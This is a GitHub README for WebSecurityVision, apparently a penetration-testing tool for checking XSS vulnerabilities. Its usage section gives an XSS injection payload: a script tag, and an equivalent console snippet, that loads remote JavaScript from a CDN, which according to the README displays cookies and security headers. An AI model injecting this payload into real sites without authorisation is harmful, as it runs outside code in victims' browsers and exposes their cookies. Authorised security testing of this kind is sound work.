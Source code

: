 # WebSecurityVision

WebSecurityVision is a tool for checking XSS vulnerability in the Pentest process, by calling it on the page, if the site has XSS vulnerability and the security headers are not set correctly, the browser information, including cookies and headers related to the cyber security space shows.

<p align="center">
    <img alt="BetterCap" src="https://github.com/TheWation/WebSecurityVision/blob/master/github/screenshot.png?raw=true" height="394" />
</p>

## Usage

To use, enter the following code through the vulnerable section or enter the page through the Developer Console section.

Vulnerable Input:

```javascript
<SCRIPT SRC=https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js></SCRIPT>
```

Inspect Element:

```javascript
var script = document.createElement('script');
script.type = 'text/javascript';
script.src = 'https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js';
document.head.appendChild(script);
```

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.